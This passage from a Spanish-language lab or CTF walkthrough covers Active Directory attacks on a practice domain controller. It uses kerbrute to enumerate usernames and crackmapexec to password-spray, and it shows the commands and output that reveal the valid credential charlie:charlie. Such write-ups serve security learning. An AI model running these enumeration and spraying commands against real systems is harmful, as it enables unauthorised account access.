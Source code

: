 Vemos que la cuenta guest esta deshabilitada, asi que no tenemos forma de enumerar los recursos de SMB.

Hay que encontrar otra via para enumerar usuarios.

# KERBRUTE

Vamos a utilizar kerbrute para identificar usuarios del sistema con una wordlist de usernames.

```bash
./kerbrute_linux_amd64 userenum -d SOUPEDECODE.LOCAL  --dc 10.0.4.18 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Info:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/07/25 - Ronnie Flathers @ropnop

2025/09/07 18:43:51 >  Using KDC(s):
2025/09/07 18:43:51 >  	10.0.4.18:88

2025/09/07 18:43:51 >  [+] VALID USERNAME:	 admin@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 charlie@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 Charlie@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 administrator@SOUPEDECODE.LOCAL
2025/09/07 18:43:51 >  [+] VALID USERNAME:	 Admin@SOUPEDECODE.LOCAL
2025/09/07 18:43:52 >  [+] VALID USERNAME:	 Administrator@SOUPEDECODE.LOCAL
2025/09/07 18:43:52 >  [+] VALID USERNAME:	 CHARLIE@SOUPEDECODE.LOCAL
2025/09/07 18:43:56 >  [+] VALID USERNAME:	 ADMIN@SOUPEDECODE.LOCAL
2025/09/07 18:44:46 >  [+] VALID USERNAME:	 wreed11@SOUPEDECODE.LOCAL
```

Encontramos dos usuarios que no son por defecto: charlie y wreed11.

Los ponemos en un archivo .txt para poder hacer password spraying con los usuarios

# PASSWORD SPRAYING

```bash
crackmapexec smb 10.0.4.18 -u users.txt -p users.txt --continue-on-success --no-bruteforce
```

Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\wreed11:wreed11 STATUS_LOGON_FAILURE
```
